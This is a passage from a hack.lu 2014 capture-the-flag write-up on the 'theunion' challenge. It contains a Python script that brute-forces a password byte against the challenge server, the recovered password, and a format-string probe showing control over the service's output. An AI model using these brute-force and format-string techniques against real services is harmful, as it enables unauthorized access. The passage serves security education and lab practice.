 ![](/images/2014/hack.lu/theunion/01.png)

Only the first byte of `salt.txt` is used! This makes it easy to bruteforce it. 

```python
#!/usr/bin/python
from socket import *

s=socket(AF_INET, SOCK_STREAM)
s.connect(('wildwildweb.fluxfingers.net', 1423))

print s.recv(1024)
print s.recv(256)

for x in range(256):
        s.send('gold>silver'+chr(x)+'\n')
        print s.recv(256)
s.close()
```

This led us to finding that the full password is `gold>silverb`. Nice! Next, we where presented with a menu:

```bash
	Welcome to 
 _   _                        _             _     
| |_| |__   ___   _   _ _ __ (_) ___  _ __ ( )___ 
| __| '_ \ / _ \ | | | | '_ \| |/ _ \| '_ \|// __|
| |_| | | |  __/ | |_| | | | | | (_) | | | | \__ \
 \__|_| |_|\___|  \__,_|_| |_|_|\___/|_| |_| |___/

			mining archive.

Please give the unions slogan and secret word:
gold>silverb
Correct slogan.

1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
```

After poking around, I found a string format exploit in the `Add mine` and `Show profit` function. This little bit shows we have control over the format string:

```bash
Do you want to see the profit?
Location: %11$x-%12$x
Type: AABBBBCCCC
y/n
y
Profit for location:
42424242-43434343
AABBBBCCCC
666
```
